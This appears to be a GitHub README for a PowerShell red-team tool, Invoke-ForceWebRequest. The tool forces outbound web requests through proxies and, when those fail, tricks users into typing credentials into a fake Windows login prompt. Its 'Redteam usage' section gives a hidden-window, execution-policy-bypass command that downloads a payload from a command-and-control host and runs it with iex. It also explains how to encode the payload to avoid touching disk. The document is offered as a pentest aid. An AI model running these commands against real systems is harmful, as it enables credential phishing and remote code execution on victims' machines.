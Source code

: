 # Invoke-ForceWebRequest (@daniel0x00)
This function will force an HTTP GET in a computer with unknow internet config, trying to download the URL by downloading it directly and, if it can't, then using default proxy credentials and .pac proxy list. If none o them works, **it will trick the user and request his credentials** using the Windows default credential prompt.

## Description

Normally this function should be used in a pentest environment, when you're running this code in a target computer where you don't know exactly what is the outbound internet config. Internally, Invoke-ForceWebRequest will use another two functions:
* [Invoke-BasicWebRequest](https://github.com/daniel0x00/basicwebrequest): another function writed by me which allow me to create http webrequest with proxy config. Similar (but very basic) to Invoke-WebRequest native PowerShell function (which is only available on PowerShell v3+).
* [Invoke-LoginPrompt](https://github.com/enigma0x3/Invoke-LoginPrompt): an improved version of this great function wrote by [@enigma0x3](https://github.com/enigma0x3)

## Usage

Using the function in a computer with no proxy or proxy with no authentication
```
PS C:\> . .\Invoke-ForceWebRequest.ps1
PS C:\> Invoke-ForceWebRequest google.com -DummyString html -Verbose
VERBOSE: Trying http get with method #1: simple request...

StatusCode Content
---------- -------
       200 <!doctype html><html itemscope="" itemtype="http://schema.org/WebPage" lang="es"><head><meta content="IE=edge" http-equiv="X-UA-Co...
``` 

Using the function in a computer that have an authenticated proxy, user will be prompt for a valid proxy credentials. Note that user will be prompt until he/she writes a valid credential.

![Invoke-ForceWebRequest](http://ferreira.fm/github/invoke-forcewebrequest/requesting-credentials.png "powershell webrequest proxy credentials")

When the user writes a valid credential, html will be returned.

![Invoke-ForceWebRequest](http://ferreira.fm/github/invoke-forcewebrequest/proxy-enabled.png "powershell webrequest proxy credentials granted")

 
 ## Redteam usage

From red-team point of view: let's say you are able to run some PowerShell code in the target machine through a VBA Macro or a malicious EXE, but you really don't know how the computer is connected to internet. So you run this payload to be sure you will get response from your target:
```
(assuming you wrote the script in the target computer to $env:temp folder)

C:\> powershell.exe -ep bypass -windowstyle hidden -nop -noexit -c "gc $env:temp\Invoke-ForceWebRequest.ps1 | out-string | iex; Invoke-ForceWebRequest comandandcontrol.com/payload.txt -DummyString someCode | % { if ($_.StatusCode -eq 200) { $_.Content | out-string | iex } }"

    1: it will download code from URL comandandcontrol.com/payload.txt
    2: then it will check if the content of payload.txt is correct by checking a dummy-string that you know is inside payload.txt
    3: invoke (run) code of payload.txt (if you're a redteamer it will be some malicious code)
``` 

If you do not want to touch disk, you can also encode the entire function and the payload with [@samratashok](https://github.com/samratashok) nishang [Invoke-Encode](https://github.com/samratashok/nishang/blob/master/Utility/Invoke-Encode.ps1), something like this:
```
1: Create a .ps1 file with the following, and call it for example 'temp.ps1'
    
    function Invoke-ForceWebRequest { ...... }

    Invoke-ForceWebRequest comandandcontrol.com/payload.txt -DummyString someCode | % { if ($_.StatusCode -eq 200) { $_.Content | out-string | iex } }

2: Encode the entire file with @samratashok Invoke-Encode, which will create an 'encodedcommand.txt' file in your desktop:

    PS C:\> Invoke-Encode -DataToEncode C:\temp.ps1 -OutCommand

3: Copy the content of encodedcommand.txt and then use it in your PS code that you will execute in your target:

    C:\> powershell.exe -ep bypass -windowstyle hidden -nop -noexit -enc "ENCODED_COMMAND"
``` 
